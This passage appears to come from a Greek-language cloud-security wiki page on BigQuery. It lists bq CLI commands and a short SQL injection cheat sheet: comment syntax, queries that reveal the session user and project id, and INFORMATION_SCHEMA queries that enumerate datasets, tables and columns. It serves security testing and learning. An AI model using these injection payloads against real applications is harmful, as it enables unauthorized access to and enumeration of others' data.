 ```bash
bq show --location=<location> show --format=prettyjson --job=true <job-id>

# Misc
bq show --encryption_service_account # Get encryption service account
```
{% endcode %}

### BigQuery SQL Injection

Για περισσότερες πληροφορίες μπορείτε να ελέγξετε την ανάρτηση στο blog: [https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac). Εδώ θα δοθούν μόνο μερικές λεπτομέρειες.

**Σχόλια**:

* `select 1#from here it is not working`
* `select 1/*between those it is not working*/` Αλλά μόνο η αρχική δεν θα λειτουργήσει
* `select 1--from here it is not working`

Πάρτε **πληροφορίες** σχετικά με το **περιβάλλον** όπως:

* Τρέχων χρήστης: `select session_user()`
* ID έργου: `select @@project_id`

Συνδυάστε γραμμές:

* Όλα τα ονόματα πινάκων: `string_agg(table_name, ', ')`

Πάρτε **datasets**, **tables** και **column** ονόματα:

* **Όνομα έργου** και **dataset**: 

{% code overflow="wrap" %}
```sql
SELECT catalog_name, schema_name FROM INFORMATION_SCHEMA.SCHEMATA
```
{% endcode %}

* **Ονόματα στήλης** και **πίνακα** όλων των **πινάκων** του συνόλου δεδομένων:

{% code overflow="wrap" %}
```sql
# SELECT table_name, column_name FROM <proj-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS

SELECT table_name, column_name FROM <project-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS
```
{% endcode %}

* **Άλλα σύνολα δεδομένων** στο ίδιο έργο:

{% code overflow="wrap" %}
```sql
# SELECT catalog_name, schema_name, FROM <proj-name>.INFORMATION_SCHEMA.SCHEMATA

SELECT catalog_name, schema_name, NULL FROM <project-name>.INFORMATION_SCHEMA.SCHEMATA
```
{% endcode %}
